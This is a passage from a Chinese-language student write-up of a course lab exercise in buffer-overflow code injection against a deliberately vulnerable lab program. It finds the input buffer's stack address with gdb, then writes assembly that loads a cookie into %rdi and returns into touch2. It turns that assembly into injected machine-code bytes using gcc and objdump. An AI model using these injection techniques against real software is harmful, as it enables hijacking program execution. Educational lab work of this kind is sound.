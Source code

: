 2. 赋值之后还需要跳转到touch2函数，因此还需要添加一条跳转指令jmp

需要使用的数据

1. gets读入数据的初始位置，需要通过gdb添加断点查看rsp的值

   这里有一点是我没有想到的是堆栈地址居然不会随着程序不同次的运行而发生改变

   gets读入数据的初始位置为：`0x5561dc78`

2. 获得汇编指令对应的机器指令

   这里我们需要填写的是16进制数，相当于机器指令，而指令是汇编代码，所以还需要使用gcc将汇编代码转变为机器指令，这里是没有想到的

   所需要的指令

   ```assembly
   mov 0x59b997fa,%rdi #将参数cookie.txt的值放入寄存器中
   jmp 0x4017ec #跳转到touch2函数
   ```

   这里有个问题是[jmp指令](https://www.jianshu.com/p/c685c1c033ff)另外涉及到cs和ip寄存器，地址求解较为复杂，上面的写法好似不对，所以这里采用博客里面使用的方法，再进行一次retq，返回到touch2

   ```shell
   mov 0x59b997fa,%rdi #将参数cookie.txt的值放入寄存器中
   retq
   ```

   ```shell
   gcc -c 2.s # 将汇编代码汇编为目标文件
   objdump -d 2.o # 反汇编获得机器指令
   ```

   > 注：这里为何要首先对汇编代码进行汇编再进行反汇编得到汇编代码？
   >
   > 我们的目标是获得汇编指令对应的机器指令，第一次的汇编代码是我们手写的，第二次的汇编代码是通过反汇编得到的，通过还具有汇编指令对应的机器指令

```
2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 8b 3c 25 fa 97 b9 	mov    0x59b997fa,%rdi
   7:	59 
   8:	c3                   	retq
```

​		上面我犯了一个错误是mov指令中立即数之前需要添加`$`符号，我没有写

修正后结果为

```assembly
mov $0x59b997fa,%rdi #将参数cookie.txt的值放入寄存器中
retq
```

```shell
2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq
```
